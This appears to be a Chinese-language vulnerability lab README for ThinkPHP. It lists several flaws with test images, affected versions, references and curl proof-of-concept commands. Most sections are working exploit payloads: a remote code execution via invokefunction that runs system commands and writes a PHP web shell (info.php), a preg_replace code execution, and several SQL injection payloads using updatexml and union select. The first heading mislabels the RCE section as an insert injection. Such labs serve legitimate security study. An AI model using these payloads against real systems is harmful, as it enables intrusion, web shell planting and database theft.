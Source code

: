 ## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/2.0/

影响范围

* 5.1.X - 5.1.31, 5.0.X - 5.0.23

Poc

```
curl -g '127.0.0.1/public/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id'
curl -g '127.0.0.1/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=info.php&vars[1][]=<?php%20system($_GET[0]);?>'
```

参考文档

* [thinkphp5框架缺陷导致远程代码执行](https://mp.weixin.qq.com/s/oWzDIIjJS2cwjb4rzOM4DQ)
* [thinkphp_v5_rce.txt](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/a9f165d7bc5bcc2b5e03153577bdfd83f35b0564/thinkphp/thinkphp_v5_rce.txt)

## Thinkphp preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl -g 'http://127.0.0.1/index.php/module/action/param1/$%7B@system($_POST[0])%7D' -d 0=ls
```

## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/5.0.16/

影响版本

- Thinkphp < 5.0.16

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```



## Thinkphp3.2.3 update注入漏洞

测试镜像

- src/thinkphp/3.2.3/

影响版本

- Thinkphp < 3.2.3

参考链接

- [Thinkphp3.2.3最新版update注入漏洞](https://paper.seebug.org/573/)

Poc

```shell
curl 'http://172.17.0.2/index.php/home/user?user\[0\]=bind&user\[1\]=money_0%20or%201%20and(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))&money=qwe'
```

返回内容包含sql报错：XPATH syntax error: '~root@localhost~'



## Thinkphp exp表达式注入漏洞

测试镜像

- src/thinkphp/3.2.3/

影响版本

- Thinkphp 3.x 5.x

参考文档

- [ThinkPHP框架架构上存在SQL注入](https://www.secpulse.com/archives/29826.html)

Poc

```shell
curl 'http://172.17.0.2/index.php/home/user/exp_inject?id\[\]=exp&id\[\]=%3d888%20union%20select%201,database(),3%23'
```

